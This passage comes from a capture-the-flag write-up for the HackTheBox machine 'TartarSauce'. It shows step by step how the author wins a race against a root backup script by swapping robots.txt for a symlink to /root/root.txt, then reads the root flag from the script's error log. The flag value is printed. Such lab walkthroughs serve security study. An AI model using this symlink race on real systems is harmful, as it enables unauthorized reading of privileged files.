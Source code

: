 	2. Create a backup of `/var/www/html/robots.txt`.
		```
		www-data@TartarSauce:/var/www/html$ cat /var/www/robots.txt
		User-agent: *
		Disallow: /webservices/tar/tar/source/
		Disallow: /webservices/monstra-3.0.4/
		Disallow: /webservices/easy-file-uploader/
		Disallow: /webservices/developmental/
		Disallow: /webservices/phpmyadmin/
		
		www-data@TartarSauce:/var/www/html$ cp /var/www/html/robots.txt /tmp/robots.txt.bak
		```
	5. Wait for `backuperer` to execute, an archive (`/var/tmp/.RANDOM`) 
		- This archive contains `robots.txt`
	6. Within 30 seconds after `backuperer` is executed,
		- We have to remove `/var/www/html/robots.txt`
			```
			www-data@TartarSauce:/var/www/html$ rm /var/www/html/robots.txt
			```
		- Create a symlink (`/var/www/html/robots.txt`) pointing to `/root/root.txt`
			```
			www-data@TartarSauce:/var/www/html$ ln -s /root/root.txt robots.txt
			```
	7. After 30 seconds, `/usr/bin/diff` is executed, since the content of `robots.txt` in the  archive & the web directory is different, the contents of both the symlink and the actual `robots.txt` is appended into `/var/backups/onuma_backup_error.txt`
	8. View `/var/backups/onuma_backup_error.txt`, content of `root.txt` resides in it
		```
		www-data@TartarSauce:/var/www$ cat /var/backups/onuma_backup_error.txt | tail -n 1
		94950492344b54734ea2550b122def59
		```
5. Root Flag
	```
	94950492344b54734ea2550b122def59
	```
6. 	Demo - Backuperer read root.txt
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="symlink"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/TartarSauce/images/symlink.cast', document.getElementById('symlink'), { 
		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>
